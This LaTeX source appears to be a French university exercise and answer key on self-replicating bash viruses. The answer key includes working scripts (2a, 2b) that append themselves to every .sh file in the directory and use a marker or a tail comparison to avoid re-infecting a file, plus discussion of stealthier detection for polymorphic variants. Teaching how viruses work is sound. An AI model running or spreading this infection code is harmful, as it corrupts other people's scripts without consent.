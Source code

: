 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{2c)}] \textbf{Stratégie par exécution test :} Expliquer le principe (sans implémenter) : isoler les dernières lignes du fichier, les exécuter avec un argument spécial (ex : \texttt{--vbx-test}), analyser la sortie. Quels sont les avantages et inconvénients ?

\item[\textbf{2d)}] Remplir un tableau comparatif des 3 stratégies selon les critères : fiabilité, discrétion, robustesse au polymorphisme.
\end{enumerate}

\begin{correction}

\textbf{2a)} Virus avec anti-surinfection par marqueur :
\begin{lstlisting}[title=vbashx\_phase2a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=10
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2b)} Virus avec anti-surinfection par comparaison tail :
\begin{lstlisting}[title=vbashx\_phase2b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 2b ---
VIRUS_SIZE=11
MY_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$0"))
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        TARGET_CODE=$(echo -n $(tail -n $VIRUS_SIZE "$f"))
        if [ "$MY_CODE" != "$TARGET_CODE" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{2c)} \textbf{Stratégie par exécution test :} On extrait les dernières \texttt{VIRUS\_SIZE} lignes du fichier cible dans un fichier temporaire, on l'exécute avec un argument spécial (ex : \texttt{./tmp\_test.sh --vbx-test}). Si le code viral est présent, il détecte l'argument et retourne un code spécifique (ex : \texttt{exit 42}).

\textit{Avantages :} Non incriminant (pas de signature en clair), fonctionne même si le code viral change de forme.

\textit{Inconvénients :} Plus complexe à implémenter, nécessite l'exécution de code potentiellement dangereux, plus lent (fork + exec pour chaque fichier testé).


\end{correction}
\end{exercice}
\end{document}
